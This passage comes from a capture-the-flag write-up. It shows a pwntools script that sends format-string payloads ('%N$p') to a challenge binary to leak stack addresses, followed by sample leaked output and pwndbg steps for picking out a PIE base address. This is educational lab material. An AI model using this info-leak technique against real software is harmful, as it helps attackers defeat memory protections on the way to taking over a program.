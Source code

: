 However, there are a lot of addresses on the stack, and we want to find one that is useful to us.

Let's build a script to do just that.

```py
from pwn import *

context.log_level = 'error'
context.binary = "./chall"

for i in range(50):
    try:
        p = process("./chall")
        payload = '%{}$p'.format(i).encode()
        p.sendlineafter("flavour: \n", payload)
        p.recvuntil("taste: \n")
        result = p.recvline().strip().decode()
        print("Address @{}: ".format(i) + result)
    except EOFError:
        pass
```

This script does the following:
1. removes all unnecessary output except errors
2. loops 50 times to take 50 addresses off the stack

We would then see the following results
```sh
Address @0: %0$p
Address @1: 0x7ff9af325643
Address @2: (nil)
Address @3: 0x7fd20016f210
Address @4: (nil)
Address @5: (nil)
Address @6: 0xa70243625
Address @7: (nil)
Address @8: 0x7ffe611f7868
Address @9: 0x7ffc5694d590
Address @10: (nil)
Address @11: 0x7ffdb739dd38
Address @12: 0x7ffeb6ec7e40
Address @13: 0x562a91e00a49
...
```

You might be wondering: Which given we see above addresses do we use?

You can do this to check (the binary must be running):
```sh
# run this command if PIE is enabled
pwndbg> piebase
Calculated VA from <YOUR_DIR> = 0x555555400000
```

We want to actually use the one that is in the `0x555555400000` range, thus the 13th value of the stack. (FYI those that start with `7ff` are libc functions)
